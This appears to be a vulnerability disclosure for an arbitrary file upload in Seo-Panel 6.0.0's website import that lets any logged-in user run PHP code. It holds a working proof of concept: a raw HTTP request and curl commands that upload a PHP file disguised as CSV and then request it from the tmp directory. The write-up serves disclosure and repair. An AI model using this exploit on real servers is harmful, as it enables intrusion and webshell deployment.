







# Seo-Panel Website Import Arbitrary File Upload Leading to Code Execution

## 1. Vulnerability Description

An arbitrary file upload issue exists in Seo-Panel's website import feature and can be triggered by **normal authenticated users**.

When a logged-in user submits a file through the website import functionality, the backend only performs weak validation on the uploaded content. It checks `mime_content_type()` of the temporary file and accepts the upload if the browser-supplied multipart `Content-Type` is `text/csv` or `application/vnd.ms-excel`. However, the application does **not** restrict the uploaded filename extension, does **not** rename the file, and writes the file directly into the web-accessible `tmp/` directory using the original attacker-controlled filename.

As a result, an authenticated user can upload a file such as `shell.php` whose content is crafted to pass the backend MIME checks, and the application will store it as `tmp/shell.php`. The uploaded PHP file can then be accessed directly through the web server and executed.

- **Affected Version**: `Seo-Panel 6.0.0` confirmed
- **Attack Prerequisite**: Triggerable by normal authenticated users
- **Vulnerability Type**: Arbitrary File Upload / Remote Code Execution
- **CWE ID**: CWE-434
- **Relevant Code**:
  - `websites.php:80`
  - `controllers/website.ctrl.php:721`
  - `controllers/website.ctrl.php:724`
  - `controllers/website.ctrl.php:725`

## 2. Reproduction Steps

### 2.1 Normal authenticated user

1. Log in to Seo-Panel as a normal user (Not an administrator user).

2. Open the website import feature exposed through `websites.php` with `sec=import`.

   URL: http://localhost/websites.php?sec=import

   

   You can obtain the `PHPSESSID` required for the subsequent upload of malicious files on this page. For example, my PHPSESSID is `dfkht8fc7rn3is3iiahclnl99f`:

   URL: http://localhost/websites.php?sec=import

   

3. Prepare a malicious PHP file whose content is crafted so that the server-side MIME detection treats it as plain text. A simple working example is:

   ```php
   a,b
   <?php echo 'UPLOAD_OK_'.md5('sp'); ?>
   ```

   I placed this file at `D:\desktop\shell.php` (I reproduced this vulnerability in my local Windows environment). 

   

   Note that the content of the uploaded PHP file **must start with the string `a,b`, otherwise it will indicate that it is not a CSV file, causing the upload to fail**:

   

   However, if the content of the PHP file starts with the string `a,b`, it will be uploaded successfully. This file has a `.php` extension, **but its content begins with CSV-like text so that it can pass the import flow.** Note: It is recommended to launch this attack via a curl command/HTTP request; uploading this file directly on the front-end page will fail.

4. Submit the file through the import form:
   - set `sec=import`

   - upload the file with a multipart `Content-Type` of `text/csv`

     

5. Observe that the application accepts the upload, moves the file into the web-accessible `tmp/` directory, and processes it as an import file.

   

6. After the upload completes, access the uploaded file directly through the browser:

   ```text
   /tmp/shell.php
   ```

7. Observe that the PHP code is executed by the server and attacker-controlled output is returned.

   URL: http://localhost/tmp/shell.php

   

### Expected Behavior During Verification

The application should reject dangerous extensions such as `.php`, should not preserve attacker-controlled executable filenames, and should never place uploaded user files into a web-accessible directory where they can be executed.

### Actual Behavior

The file is accepted, written into `tmp/` using the original `.php` filename, and can be requested directly over HTTP for server-side execution.

## 3. PoC

### HTTP PoC

```http
POST /websites.php HTTP/1.1
Host: localhost
Cookie: PHPSESSID=<valid_normal_user_session>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Connection: close

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="sec"

import
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="website_csv_file"; filename="shell.php"
Content-Type: text/csv

a,b
<?php echo 'UPLOAD_OK_'.md5('sp'); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

### curl PoC

```bash
curl.exe --noproxy "*" -i -s -b "PHPSESSID=dfkht8fc7rn3is3iiahclnl99f" `
  -F "sec=import" `
  -F "website_csv_file=@D:\desktop\shell2.php;type=text/csv" `
  "http://localhost/websites.php"
```


**Note: Please adjust the two strings labeled in the figure to your own PHPSESSID and file path.**

Then trigger execution of the uploaded file:

```bash
curl.exe --noproxy -i "http://localhost/tmp/shell.php"
```

### Expected Response Behavior

The uploaded file is reachable and executed by the PHP interpreter, returning attacker-controlled output similar to:

```text
a,b
UPLOAD_OK_1952a01898073d1e561b9b4f2e42cbd7
```


### Notes

- A valid authenticated user session is required.
- The exploit succeeds because the application:
  - trusts weak MIME-based checks,
  - keeps the original attacker-controlled filename,
  - and stores the upload under a web-accessible path.
- The key uploaded file is a `.php` file that passes the text-based import checks.

## 4. Impact

This issue allows a normal authenticated user to upload a server-executable PHP file into a web-accessible directory and then execute arbitrary PHP code remotely through the browser.

Impact includes:

- Arbitrary file upload of dangerous executable file types
- Direct remote code execution through `/tmp/<attacker_filename>.php`
- Full compromise of application integrity under the web server's execution context
- Potential access to application files, configuration, and database credentials
- Possibility of persistence, webshell deployment, and further lateral movement within the environment

Because exploitation only requires a normal authenticated account and no administrator privileges, the risk is severe. Once the file is uploaded successfully, the attacker gains a straightforward path to server-side code execution.